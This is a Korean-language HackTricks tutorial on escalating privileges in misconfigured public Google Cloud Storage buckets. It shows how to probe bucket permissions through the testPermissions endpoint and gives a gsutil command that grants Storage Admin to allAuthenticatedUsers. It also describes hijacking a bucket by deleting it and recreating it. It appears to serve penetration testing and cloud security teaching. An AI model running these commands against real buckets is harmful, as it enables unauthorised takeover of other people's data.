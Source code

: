 # GCP - 공개 버킷 권한 상승

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**을** **팔로우**하세요.
* **HackTricks**와 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## 버킷 권한 상승

만약 버킷 정책이 "allUsers" 또는 "allAuthenticatedUsers"에게 **버킷 정책을 쓰는 권한**(**storage.buckets.setIamPolicy** 권한)을 허용한다면, 누구나 버킷 정책을 수정하고 자신에게 완전한 액세스 권한을 부여할 수 있습니다.

### 권한 확인

버킷의 권한을 확인하는 방법은 2가지입니다. 첫 번째 방법은 `https://www.googleapis.com/storage/v1/b/BUCKET_NAME/iam`으로 요청을 보내거나 `gsutil iam get gs://BUCKET_NAME`을 실행하여 권한을 요청하는 것입니다.

하지만, 사용자(잠재적으로 allUsers 또는 allAuthenticatedUsers에 속하는 사용자)가 버킷의 iam 정책을 읽는 권한(storage.buckets.getIamPolicy)을 가지고 있지 않은 경우에는 작동하지 않습니다.

다른 옵션은 항상 작동하는 버킷의 testPermissions 엔드포인트를 사용하여 지정된 권한을 확인하는 것입니다. 예를 들어 다음에 접근하는 것입니다: `https://www.googleapis.com/storage/v1/b/BUCKET_NAME/iam/testPermissions?permissions=storage.buckets.delete&permissions=storage.buckets.get&permissions=storage.buckets.getIamPolicy&permissions=storage.buckets.setIamPolicy&permissions=storage.buckets.update&permissions=storage.objects.create&permissions=storage.objects.delete&permissions=storage.objects.get&permissions=storage.objects.list&permissions=storage.objects.update`

### 상승

`Storage Admin` 권한을 `allAuthenticatedUsers`에게 부여하려면 다음을 실행할 수 있습니다:
```
gsutil iam ch group:allAuthenticatedUsers:admin gs://BUCKET_NAME
```
다른 공격 방법은 **버킷을 제거하고 소유권을 훔쳐서 자신의 계정에 다시 생성하는 것**입니다.

## 참고 자료

* [https://rhinosecuritylabs.com/gcp/google-cloud-platform-gcp-bucket-enumeration/](https://rhinosecuritylabs.com/gcp/google-cloud-platform-gcp-bucket-enumeration/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왑**](https://peass.creator-spring.com)을 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**을** **팔로우**하세요.
* **HackTricks**와 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>
